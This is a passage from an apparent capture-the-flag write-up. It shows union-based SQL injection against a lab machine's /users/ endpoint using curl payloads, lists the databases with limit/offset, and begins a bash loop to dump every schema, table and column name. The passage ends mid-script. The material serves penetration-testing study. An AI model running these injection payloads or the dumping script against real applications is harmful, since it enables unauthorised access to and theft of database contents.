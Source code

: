 Next I’ll print the databases. But I run into a problem - it only returns one:

```

root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata;--%20-" | jq -r '.username'
information_schema

```

I know there’s at least another named `ozdb`. In fact, I can get that using `limit` and `offset`:

```

root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%200;--%20-" | jq -r '.username'
information_schema
root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%201;--%20-" | jq -r '.username'
mysql
root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%202;--%20-" | jq -r '.username'
ozdb
root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%203;--%20-" | jq -r '.username'
performance_schema
root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20FROM%20information_schema.schemata%20limit%201%20offset%204;--%20-" | jq -r '.username'
null
root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20schema_name%20F

```

In case it’s not clear in the url encoding, it’s `' union select schema_name FROM information_schema.schemata limit 1 offset X;-- -`, where I change X each time. 0-3 return names, and 4 returns null. Now I have table names:

```

information_schema
mysql
ozdb
performance_schema

```

#### Script To Dump Tables / Columns

I want to next get the columns from each table, but that could be a lot, and it’s past time to make a short script. Since I have a curl commands that’s working well for me, I’ll just write a bash script that runs through the `information_schema.columns` table getting db name, table name, and column name. I’ll print the dbs and the tables to the screen, and record the column names. Some trial and error showed me that 333 was enough to loop over and get results:

```

  1 #!/bin/bash
  2 
  3 cur_db=''
  4 cur_table=''
  5 
  6 for i in $(seq 0 333); do
  7 
  8     result=$(curl -s "http://10.10.10.96/users/'%20union%20select%20concat(TABLE_SCHEMA,':',TABLE_NAME,':',COLUMN_NAME)%20from%20information_schema.columns%20where%20TABLE_SCHEMA%20!                                      =%20'Information_schema'%20LIMIT%201%20OFFSET%20${i};--%20-" | jq -r .username)
  9 
```